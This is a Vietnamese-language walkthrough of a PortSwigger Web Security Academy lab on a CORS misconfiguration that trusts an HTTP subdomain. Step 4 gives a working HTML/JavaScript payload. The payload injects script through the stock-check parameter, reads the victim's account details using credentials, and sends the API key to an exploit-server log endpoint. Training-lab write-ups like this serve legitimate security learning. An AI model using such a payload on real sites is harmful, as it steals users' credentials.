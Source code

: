 # Write-ups: CORS vulnerability with trusted insecure protocols

### Tổng quan
Khai thác lỗ hổng Cross-Origin Resource Sharing (CORS) trong ứng dụng, nơi cấu hình CORS cho phép các origin từ giao thức HTTP không an toàn (subdomain tin cậy như `http://stock.<lab-id>.web-security-academy.net`) truy cập tài nguyên nhạy cảm với `Access-Control-Allow-Credentials: true`. Ứng dụng không kiểm tra nghiêm ngặt origin, cho phép tiêm mã JavaScript qua chức năng kiểm tra kho (`check stock`) trên subdomain tin cậy, lấy thông tin tài khoản administrator (bao gồm `apikey`) và gửi đến máy chủ của kẻ tấn công. Sử dụng payload trong Exploit Server để khai thác và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CORS bằng cách sử dụng subdomain tin cậy với giao thức HTTP để tiêm mã JavaScript, lấy thông tin tài khoản administrator (`apikey`) từ endpoint `/accountDetails`, gửi đến máy chủ của kẻ tấn công và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và gửi yêu cầu GET đến `/accountDetails`:
- Phản hồi:
    ```json
    {
    "username": "wiener",
    "email": "",
    "apikey": "gM2spVpigtUmjZuNbn8brAJ2lQ6aIf8l",
    "sessions": [
        "4ONIel3mlfmKZ9wZlSVTyB3SEfBQKdvP"
    ]
    }
    ```
    - `Header`: `Access-Control-Allow-Credentials: true`, cho thấy ứng dụng cho phép gửi cookie phiên trong các yêu cầu cross-origin.
    - Không có `Access-Control-Allow-Origin` trong phản hồi mặc định:
    ![ACAO](./images/1_details.png)

2. **Kiểm tra cấu hình CORS**
- Gửi yêu cầu GET `/accountDetails` đến Burp Repeater, thêm header `Origin: http://trusted-subdomain.0a0200110347f2008220ec3e005200e0.web-security-academy.net`:
- **Phản hồi**:
    - Header: `Access-Control-Allow-Origin: http://trusted-subdomain.0a0200110347f2008220ec3e005200e0.web-security-academy.net`
    - Xác nhận lỗ hổng CORS: ứng dụng cho phép origin từ subdomain tin cậy với giao thức HTTP và gửi cookie phiên (`Access-Control-Allow-Credentials: true`):
        ![cors](./images/2_ACAO.png)

3. **Tìm subdomain tin cậy**
- Kiểm tra chức năng "Check stock" trong ứng dụng, quan sát yêu cầu:
    - **Phản hồi**: Redirect đến `http://stock.0a0200110347f2008220ec3e005200e0.web-security-academy.net/?productId=1&storeId=1`, xác nhận `stock.<lab-id>.web-security-academy.net` là subdomain tin cậy:
        ![stock](./images/3_check_stock.png)

4. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để tiêm mã JavaScript qua URL `check stock` trên subdomain tin cậy:
    ```html
    <script>
    document.location="http://stock.0a0200110347f2008220ec3e005200e0.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a0200110347f2008220ec3e005200e0.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a91004403cef2f8825febab01130060.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
    ```
    ![body](./images/4_body.png)
- **Ý tưởng payload**:
    - Chuyển hướng trình duyệt đến URL check stock trên subdomain tin cậy (`stock.<lab-id>`), tiêm mã JavaScript qua tham số `productId`.
    - Mã JavaScript sử dụng `XMLHttpRequest` để gửi yêu cầu GET đến `/accountDetails` với `withCredentials=true`, lấy thông tin tài khoản (bao gồm `apikey`) của người dùng hiện tại (`administrator`).
    - Hàm `reqListener` gửi phản hồi (`responseText`) đến endpoint `/log` trên Exploit Server.

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - Kết quả: Thông tin tài khoản được gửi đến `/log?key=...`, bao gồm `apikey`: `52q5Hczf3eV1hSHc2tso7B9rTfBkSAJq`:
        ![api](./images/5_api.png)

- Submit `apikey` (`52q5Hczf3eV1hSHc2tso7B9rTfBkSAJq`) trong giao diện lab để hoàn thành:
    ![solved](./images/6_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CORS bằng cách sử dụng subdomain tin cậy với giao thức HTTP để tiêm mã JavaScript, lấy thông tin nhạy cảm từ endpoint `/accountDetails` thông qua `XMLHttpRequest` với `withCredentials=true`.
- Nhận thức tầm quan trọng của việc cấu hình CORS nghiêm ngặt (giới hạn `Access-Control-Allow-Origin`, ưu tiên HTTPS), kiểm tra chặt chẽ các `origin` tin cậy, và bảo vệ chống lại JavaScript injection trên các endpoint như `check stock` để ngăn chặn các cuộc tấn công CORS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng CORS bằng cách lợi dụng cấu hình yếu với subdomain tin cậy sử dụng giao thức HTTP, nhấn mạnh tầm quan trọng của việc hạn chế `Access-Control-Allow-Origin`, sử dụng HTTPS, và bảo vệ chống JavaScript injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*